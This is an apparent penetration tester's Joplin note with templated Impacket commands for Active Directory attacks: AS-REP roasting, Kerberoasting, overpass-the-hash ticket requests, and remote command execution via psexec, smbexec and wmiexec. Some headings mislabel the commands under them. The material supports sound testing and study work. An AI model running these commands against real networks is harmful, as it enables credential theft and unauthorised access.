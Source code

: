 Impacket Kerberoasting

## Check for Kerberoasting:

- GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip <ip>-format hashcat/john</ip>

## GetUserSPNs

ASREPRoast:

- impacket-GetUserSPNs &lt;domain\_name&gt;/&lt;domain\_user&gt;:&lt;domain\_user\_password&gt; -request -format &lt;AS\_REP\_responses\_format \[hashcat | john\]&gt; -outputfile &lt;output\_AS\_REP\_responses_file&gt;
- impacket-GetUserSPNs &lt;domain\_name&gt;/ -usersfile &lt;users\_file&gt; -format &lt;AS\_REP\_responses\_format \[hashcat | john\]&gt; -outputfile &lt;output\_AS\_REP\_responses_file&gt;

Kerberoasting:

- impacket-GetUserSPNs &lt;domain\_name&gt;/&lt;domain\_user&gt;:&lt;domain\_user\_password&gt; -outputfile &lt;output\_TGSs\_file&gt;

Overpass The Hash/Pass The Key (PTK):

- python3 getTGT.py &lt;domain\_name&gt;/&lt;user\_name&gt; -hashes \[lm\_hash\]:&lt;ntlm\_hash&gt;
- python3 getTGT.py &lt;domain\_name&gt;/&lt;user\_name&gt; -aesKey &lt;aes_key&gt;
- python3 getTGT.py &lt;domain\_name&gt;/&lt;user\_name&gt;:\[password\]

## Using TGT key to excute remote commands from the following impacket scripts:

- python3 psexec.py &lt;domain\_name&gt;/&lt;user\_name&gt;@&lt;remote_hostname&gt; -k -no-pass
- python3 smbexec.py &lt;domain\_name&gt;/&lt;user\_name&gt;@&lt;remote_hostname&gt; -k -no-pass
- python3 wmiexec.py &lt;domain\_name&gt;/&lt;user\_name&gt;@&lt;remote_hostname&gt; -k -no-pass

# Impacket General Information

## In Kali

apt install impacket-scripts

## Github

https://github.com/SecureAuthCorp/impacket

## Local Locations:

/usr/share/doc/python3-impacket/examples

id: 69508366539649a09286d7f3274ed2b6
parent_id: c900bb1263d649dd801144a9657e4075
created_time: 2020-04-10T02:04:52.810Z
updated_time: 2022-01-16T06:31:36.985Z
is_conflict: 0
latitude: 0.00000000
longitude: 0.00000000
altitude: 0.0000
author: 
source_url: 
is_todo: 0
todo_due: 0
todo_completed: 0
source: joplin-desktop
source_application: net.cozic.joplin-desktop
application_data: 
order: 0
user_created_time: 2020-04-10T02:04:52.810Z
user_updated_time: 2022-01-16T06:31:36.985Z
encryption_cipher_text: 
encryption_applied: 0
markup_language: 1
is_shared: 0
share_id: 
conflict_original_id: 
master_key_id: 
type_: 1